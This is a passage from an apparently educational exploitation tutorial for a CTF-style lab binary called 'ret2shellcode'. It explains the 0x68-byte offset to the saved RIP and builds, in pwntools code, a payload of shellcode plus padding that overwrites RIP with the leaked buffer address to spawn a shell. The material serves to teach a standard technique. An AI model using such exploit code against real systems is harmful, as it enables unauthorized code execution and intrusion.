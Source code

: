 There is a strong correspondence between the calculated offset and the source code. The buffer is of size 0x60 and the offset is 0x68. But, why is it `sizeof(buf)+8`?<br/>
This is because the stack(frame) of main function contains only _buf_ buffer. It is adjacent to the sensitive data I was talking about earlier. The sensitive data is saved RBP and saved RIP. saved RBP is the base pointer which will be used when main returns. After saved RBP, comes saved RIP. That's why we need 8 more bytes to get upto saved RIP.

### ret2shellcode
Now we have RIP under-control. But, [what now](https://hackmd.io/@stdnoerr/rip_control)?
Since NX is disabled, the easiest way is to execute a shellcode which gives us a shell.<br/>
But, for this, we need to have something where we can put it and we need to know its location in order to return to it.<br/>
Luckily, both of these requirements are satisfied in this situation. We have a buffer we can write to and the program gives us its address.<br/>
Lets start writing our exploit script.<br/>
```py
#!/usr/bin/env python3
from pwn import *

def start():
	global p
	if args.REMOTE:
		p = remote('localhost', 1337)
	else:
		p = elf.process()

context.binary = elf = ELF('./ret2shellcode')
libc = elf.libc
start()

### Exploit Goes here ###
offset = 0x68

p.interactive()
p.close()
```
First we need to store buffer's address which is printed by the binary.
```py
p.recvline()
buf_addr = int(p.recvline().split()[-1], 16)
```
Then the shellcode we want to execute. I used pwntools shellcraft utility for this.
```py
shellcode = asm(shellcraft.linux.sh())
```
Now we need to craft such a payload which will overwrite the RIP with buffer's address and the buffer contains the shellcode.
```py
# store the shellcode
payload = shellcode
# Add junk until we reach saved RIP
payload += b'A'*(offset - len(shellcode))
# Overwrite RIP with buf's address
payload += p64(buf_addr)
```
Now just send the payload.
```py
# sendline because gets waits until a newline(\n)
p.sendline(payload)
```
Then communicate with the program by going interactive.
```py
p.interactive()
```
And BOOM! you have a shell.
